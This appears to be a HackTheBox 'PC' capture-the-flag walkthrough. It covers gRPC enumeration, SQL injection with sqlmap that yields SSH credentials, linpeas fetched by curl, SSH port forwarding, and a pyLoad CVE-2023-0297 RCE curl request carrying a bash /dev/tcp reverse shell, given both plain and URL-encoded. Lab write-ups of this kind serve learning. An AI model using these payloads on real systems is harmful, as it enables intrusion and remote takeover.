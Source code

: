 ```yaml
---
layout: post
status: publish
published: true
title: PC Machine 
author: horus
categories: [CTF]
tags: [CTF,HackTheBox,Easy]
comments: true
image: /assets/img/images/main.png
--- 
```


## Introduction : 
Hello, I hope you are doing well. HackTheBox has published a machine called `PC`. It is an easy machine that has an abnormal beginning in enumeration, and we will solve it today together. I hope you enjoy the walkthrough.

DIFFICULTY : `Easy` 
OPERATING SYSTEM : `Linux`
IP:`10.10.11.214`	

## Improved Topics : 
- Enumeration
- sql injection
- port forwarding

## Used tools : 
- nmap
- grpcui
- sqlmap
- linpeas


---
## Enumeration :
The first thing that i have to do is to scan the target using `nmap` by using this command `nmap -A 10.10.11.214` to see the opened ports on it . after the scan have finished ,no ports are open were found . so i tried this command to discover all ports for **1** to **65,535** `nmap -p- -Pn 10.10.11.214` and this was the result : 
```
Nmap scan report for 10.10.11.214
Host is up (0.44s latency).
Not shown: 65533 filtered ports
PORT      STATE SERVICE
22/tcp    open  ssh
50051/tcp open  unknown
```
i noticed this strange port `50051/tcp open  unknown` i googled it and after some search i founded that service called  *gRPC* uses this port .

> *gRPC* : gRPC is an open-source framework developed by Google for efficient remote procedure calls (RPC) between distributed systems. It uses the HTTP/2 protocol as its transport layer, enabling multiplexing and high-performance communication over a single TCP connection. gRPC supports multiple programming languages and uses Protocol Buffers (protobuf) as the interface definition language (IDL) for describing data structures and services. It simplifies the implementation of client-server applications and APIs by handling the underlying communication details. gRPC supports various communication patterns and offers high performance, language independence, and a rich set of features for building scalable distributed systems.
{: .prompt-tip }


I searched for *gRPC* on google to see if it have any CVES or vulnerabilities , i came across this writeup [https://medium.com/@ibm_ptc_security/grpc-security-series-part-3-c92f3b687dd9] , i discovered that it might vulnerable by *Sql Injection*
,so lets get to the exploitation part. 

---
## Exploitation (user.txt):
I downloaded and installed tool called [`grpcui`](https://github.com/fullstorydev/grpcui) to interact with grpc and send requests.
to run the tool we need to execute this command `grpcui -plaintext 10.10.11.214:50051` then after you run it ,it will provide you with url on you local machine to access the tool webpage and interact with `grpc` .
![](/assets/img/images/Pasted%20image%2020230604092109.png)
it have one service and three method names :
	- RegisterUser
	- LoginUser
	- getinfo

* First i tried to register a user to test the functions 
![](/assets/img/images/Pasted%20image%2020230604092652.png)
* then i tried to login using the above credentials ,then this token showed up ![](/assets/img/images/Pasted%20image%2020230604092929.png)
* then i tried to make a request in `getinfo` function to get info request for id `1`
but the response was this ![](/assets/img/images/Pasted%20image%2020230604093401.png)
* i tried to put token header in the post request but it didn't work
* then i tried to set name=`token` and value=`eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiYWhtZWQiLCJleHAiOjE2ODU4NzM5NjF9.5stpokmr4tvpSgt76czT5TbbR-09zA9Nxs27sXEZmgI` in the request metadata and it worked.
![](/assets/img/images/Pasted%20image%2020230604093943.png)
* after that i tried to test for `sql injection` on the id parameter using tool called `sqlmap`
* i saves the whole request in file called `request.txt` , then i executed this command to test for sqli `sqlmap -r request.txt -p id` , the result was that it is vulnerable to sqli and it was using `sqllite` ,then i used this command to show the tables in the database `sqlmap -r request.txt -p id --tables`  and the result was that the database have only one table called `accounts`, i tried then to dump all the database but sqlmap didn't do well ,so i decided to retrieve the password and username manually.
* i tried to dump password by this request ![](/assets/img/images/Pasted%20image%2020230604101322.png)
* and username of this password by this request ![](/assets/img/images/Pasted%20image%2020230604101448.png)
* next after i got these credentials ***username=sau*** and ***password=HereIsYourPassWord1431***
-  i tried to login with it to ssh 
- Booom i have gained foothold ladies and gentlemen ![](/assets/img/images/Pasted%20image%2020230605011804.png)
- See you in the privilege escalation part ....

---
## Privilege Escalation :
* after i have gained a shell on the machine by using ssh it's time to gain the root privilege.
-  first i have made a local server on my machine that hosts file called `linpeas.sh` that will provide us with information that will help us to gain the root privilege, i used this command to make the server `python3 -m http.server`
- Then i tried to download the script on the `pc` machine using this command `curl http://10.10.16.65:8000/linpeas.sh > linpeas.sh` ,then i will give it the permission to be an executable by this command `chmod +x linpeas.sh` ,then run it using this command `./linpeas.sh`
	`10.10.16.65` is my local ip on HTB vpn network .
	The `chmod` command is used to change the permissions of a file or directory. The `+x` option specifies that the execute permission should be added.

* when i was monitor the `linpeas.sh` output , i came across this![](/assets/img/images/Pasted%20image%2020230605014642.png)
* there is two other ports are running localy on the `pc` machine `8000` , `9666`,  and there is python server that is runnig using `root` privilege and it properly run on port `8000` ![](/assets/img/images/Pasted%20image%2020230605015603.png)
* so let's check it , it might be interesting to gain root privilege .
* we can access this server on our local machine by using `port forwarding` technique , to do that we must execute this command on our local machine `ssh -L 8001:0.0.0.0:8000 sau@10.10.11.214` 
	ssh -L `local_port`:`machine_local_ip`:`machine_port` `machine_user`@`machine_ip`

- i visited `http:127.0.0.1:8001` on my local machine to see the service that is running on the `8000` and i also tried to access `9666` and they were running on the same service that called `pyload`.![](/assets/img/images/Pasted%20image%2020230605022042.png)
	pyload : it is Free and Open Source download manager written in Python and designed to be extremely lightweight

- i searched on google to see if this framework have any CVES , and i have found that it have a `Remote Code Execution (RCE)` vulnerability.
- i readed about the vulnerability on this page [#CVE-2023-0297](https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad) ,so let's exploit it to gain the root flag.
---
### Exploitation (root.txt):
* to exploit this `rce` vulnerability we should execute this command (exploit) on `pc` machine.
```bash
curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"touch%20/tmp/pwnd\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://<target>/flash/addcrypted2'
```
* but before we fire it we must edit on it , i changed `<target>` to `0.0.0.0:8000` and `touch%20/tmp/pwnd\` to `/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.65/5555 0>&1'`

	`/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.65/5555 0>&1'` this line is a reverse shell command .
	`10.10.16.65` is our local ip on HTB vpn network
	`5555` is the port that we will receive the reverse shell connection on it in our local machine 

- we should prepare `netcat` to receive the reverse shell connection by using this command `nc -nlvp 5555` , we will execute it on our local machine to receive the connection on `5555` port . 

* this is our final exploit , we should first encode the above reverse shell command using `url encoding` to overcome spaces problem
```bash
curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system("%2f%62%69%6e%2f%62%61%73%68%20%2d%63%20%27%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%36%2e%36%35%2f%35%35%35%35%20%30%3e%26%31%27");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://0.0.0.0:8000/flash/addcrypted2'
```

* lets fire the exploit and gain the root flag...

## Win : 
* we have got the root flag ladies and gentlemen ![](/assets/img/images/Pasted%20image%2020230605025946.png)

